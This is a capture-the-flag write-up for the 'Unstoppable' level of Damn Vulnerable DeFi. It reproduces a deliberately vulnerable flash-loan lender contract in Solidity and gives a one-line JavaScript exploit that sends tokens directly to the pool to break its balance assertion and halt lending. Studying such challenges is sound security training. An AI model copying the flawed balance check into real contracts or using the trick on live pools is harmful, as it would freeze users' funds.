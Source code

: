 ## Unstoppable memes

### Contract

<details><summary>CLICK TO VIEW</summary>
<p>

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

interface IReceiver {
    function receiveTokens(address tokenAddress, uint256 amount) external;
}

/**
 * @title UnstoppableLender
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract UnstoppableLender is ReentrancyGuard {

    IERC20 public immutable damnValuableToken;
    uint256 public poolBalance;

    constructor(address tokenAddress) {
        require(tokenAddress != address(0), "Token address cannot be zero");
        damnValuableToken = IERC20(tokenAddress);
    }

    function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token"); // Cannot exploit
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token"); // Cannot exploit

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this)); 

        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore); // This looks hella exploitable
        
        damnValuableToken.transfer(msg.sender, borrowAmount);
        
        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
}
```
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../unstoppable/UnstoppableLender.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

/**
 * @title ReceiverUnstoppable
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ReceiverUnstoppable {

    UnstoppableLender private immutable pool;
    address private immutable owner;

    constructor(address poolAddress) {
        pool = UnstoppableLender(poolAddress);
        owner = msg.sender;
    }

    // Pool will call this function during the flash loan
    function receiveTokens(address tokenAddress, uint256 amount) external {
        require(msg.sender == address(pool), "Sender must be pool");
        // Return all tokens to the pool
        require(IERC20(tokenAddress).transfer(msg.sender, amount), "Transfer of tokens failed");
    }

    function executeFlashLoan(uint256 amount) external {
        require(msg.sender == owner, "Only owner can execute flash loan");
        pool.flashLoan(amount);
    }
} 
```
  
</p>
</details>

### Solution

I saw this same type of vulnerability in [ethernaut's force challenge](https://github.com/terminalsin/writeups/blob/main/ethernaut/7-force.md), although it was
more interesting on there. In a nutshell, the vulnerability is situated here:

```solidity
        assert(poolBalance == balanceBefore); // This looks hella exploitable
```

For some odd reason, the pool calculates the balance when funds are deposited through the deposit function. How about we... deposit some by using the receive
default function!

```javascript
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */

    // V1 was better imo wtf is this
    await this.token.transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
```

Easy peasy.
